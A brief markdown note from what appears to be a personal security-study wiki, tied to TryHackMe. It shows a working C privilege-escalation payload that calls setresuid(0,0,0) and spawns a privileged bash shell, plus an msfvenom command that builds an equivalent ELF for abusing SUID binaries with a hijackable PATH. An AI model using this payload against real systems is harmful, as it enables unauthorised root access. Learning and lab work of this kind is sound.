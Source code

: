 # How to Load a Shell with a Simple Executable

It’s actually trivial to write a C program that loads up a shell.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void main() {
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```bash
gcc -fPIC -o /path/to/malicious /path/to/malicious.c
```

Note that this is *almost* identical to the [LD_PRELOAD trick](exploiting-ld-preload.md); the differences are:

* Use `main()` instead of `_init()` as our entry point.
* Compile without -shared and -nostartfiles.

A simple binary like this is useful for exploiting SUID/SGID applications that call other executables from part of the PATH that we control.

## Metasploit

The [msfvenom](metasploit.md) tool  can generate binaries with essentially the same functionality as above.

```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
```

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> November 2, 2021
